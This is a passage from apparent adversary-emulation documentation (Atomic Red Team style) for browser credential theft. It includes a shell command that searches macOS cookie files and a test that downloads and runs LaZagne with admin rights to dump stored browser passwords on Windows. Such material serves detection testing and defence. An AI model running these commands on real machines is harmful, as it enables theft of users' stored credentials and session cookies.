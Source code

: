 
#### Attack Commands: Run with `sh`! 


```sh
cd ~/Library/Cookies
grep -q "#{search_string}" "Cookies.binarycookies"
```






<br/>
<br/>

## Atomic Test #3 - LaZagne - Credentials from Browser
The following Atomic test utilizes [LaZagne](https://github.com/AlessandroZ/LaZagne) to extract passwords from browsers on the Windows operating system.
LaZagne is an open source application used to retrieve passwords stored on a local computer.

**Supported Platforms:** Windows


**auto_generated_guid:** 9a2915b3-3954-4cce-8c76-00fbf4dbd014





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| lazagne_path | Path to LaZagne | path | PathToAtomicsFolder&#92;T1555.003&#92;bin&#92;LaZagne.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"#{lazagne_path}" browsers
```




#### Dependencies:  Run with `powershell`!
##### Description: LaZagne.exe must exist on disk at specified location (#{lazagne_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{lazagne_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{lazagne_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.5/LaZagne.exe" -OutFile "#{lazagne_path}"
```

